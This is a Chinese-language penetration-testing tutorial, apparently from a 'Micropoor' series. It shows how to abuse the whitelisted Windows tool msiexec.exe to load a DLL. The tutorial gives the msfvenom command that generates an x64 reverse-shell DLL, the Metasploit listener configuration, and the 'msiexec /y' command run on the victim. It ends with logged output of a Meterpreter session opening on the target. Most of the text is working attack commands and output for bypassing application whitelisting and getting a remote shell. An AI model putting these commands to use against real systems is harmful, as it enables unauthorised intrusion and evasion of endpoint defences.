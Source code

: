 **注：**请多喝点热水或者凉白开，身体特别重要。

本季补充本地DLL加载  
**Msiexec简介：**

Msiexec是Windows Installer的一部分。用于安装Windows Installer安装包（MSI）,一般在运行Microsoft Update安装更新或安装部分软件的时候出现，占用内存比较大。并且集成于Windows 2003，Windows 7等。

**说明：**Msiexec.exe所在路径已被系统添加PATH环境变量中，因此，Msiexec命令可识别。

### 基于白名单Msiexec.exe配置payload：
**注：x64 payload**

```bash
msfvenom ‐p windows/x64/shell/reverse_tcp LHOST=192.168.1.4 LPORT=53 ‐ f dll > Micropoor_rev_x64_53.dll
```

### 配置攻击机msf：
**注：x64 payload**
```bash
msf exploit(multi/handler) > show options 

Module options (exploit/multi/handler): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 

Payload options (windows/x64/meterpreter/reverse_tcp): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process,none)

LHOST 192.168.1.4 yes The listen address (an interface may be specified)

LPORT 53 yes The listen port

Exploit target: 

Id Name
‐‐ ‐‐‐‐
0 Wildcard Target 

msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53 
```
![](/img/62736d164fb64b1462810cfea7bd472c.jpg)

### 靶机执行：
```bash
msiexec /y C:\Users\John\Desktop\Micropoor_rev_x64_dll.dll
```
![](/img/b8cbb9334f2281d8cd8f70052c2a02a9.jpg)
```bash
msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53

[*] Sending stage (206403 bytes) to 192.168.1.5

[*] Meterpreter session 26 opened (192.168.1.4:53 ‐> 192.168.1.5:11543)
at 2019‐01‐20 09:45:51 ‐0500

meterpreter > getuid

Server username: John‐PC\John

meterpreter > getpid

Current pid: 7672

meterpreter > 
```

![](/img/84fb0dd629aae878607221e385dfff34.jpg)

>   Micropoor
